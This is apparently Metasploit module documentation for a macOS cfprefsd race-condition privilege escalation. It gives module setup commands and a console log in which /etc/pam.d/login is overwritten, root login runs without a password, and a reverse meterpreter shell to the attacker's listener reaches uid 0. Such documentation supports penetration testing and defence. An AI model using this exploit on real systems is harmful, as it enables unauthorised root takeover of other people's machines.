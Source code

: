 ## Vulnerable Application

This module exploits an arbitrary file write in cfprefsd on macOS <= 10.15.4 in
order to run a payload as root. The CFPreferencesSetAppValue function, which is
reachable from most unsandboxed processes, can be exploited with a race condition
in order to overwrite an arbitrary file as root. By overwriting /etc/pam.d/login
a user can then login as root with the `login root` command without a password.


## Verification Steps

1. Get a session on a vulnerable system
2. `use exploit/osx/local/cfprefsd_race_condition`
3. `set lhost <IP>`
4. `set lport <PORT>`
5. `set session <session_id>`
6. `run`

## Scenarios

### macOS Catalina 10.15.4

```
msf exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                 Information                                                                       Connection
  --  ----  ----                 -----------                                                                       ----------
  1         meterpreter x64/osx  user @ Users-Macbook-Pro.local (uid=501, gid=20, euid=501, egid=20) @ Users-M...  192.168.56.1:4444 -> 192.168.56.4:49451 (192.168.56.4)

msf exploit(multi/handler) > use exploit/osx/local/cfprefsd_race_condition
[*] Using configured payload osx/x64/meterpreter/reverse_tcp
msf exploit(osx/local/cfprefsd_race_condition) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf exploit(osx/local/cfprefsd_race_condition) > set LPORT 5555
LPORT => 5555
msf exploit(osx/local/cfprefsd_race_condition) > set SESSION 1
SESSION => 1
msf exploit(osx/local/cfprefsd_race_condition) > exploit

[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 192.168.56.1:5555
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] Writing '/tmp/.Ug0wUz4HX6' (17204 bytes) ...
[*] Writing '/tmp/.qZy9vVNU' (14748 bytes) ...
[*] Executing exploit '/tmp/.qZy9vVNU /etc/pam.d/login'
[*] Exploit result:
Trying 10000 calls...
access: Permission denied
pwned! /etc/pam.d/login is now writable!
[*] Running cmd:
echo '/tmp/.Ug0wUz4HX6 & disown' | login root
[*] Transmitting first stager...(210 bytes)
[*] Command output:
Last login: Tue Aug 18 09:56:20 on tty??
[*] Transmitting second stager...(8192 bytes)
[*] Sending stage (799916 bytes) to 192.168.56.4
[*] Meterpreter session 2 opened (192.168.56.1:5555 -> 192.168.56.4:49452) at 2020-09-04 17:36:45 +0800

meterpreter >
[+] /etc/pam.d/login was restored

meterpreter > getuid
Server username: root @ Users-Macbook-Pro.local (uid=0, gid=0, euid=0, egid=0)

```

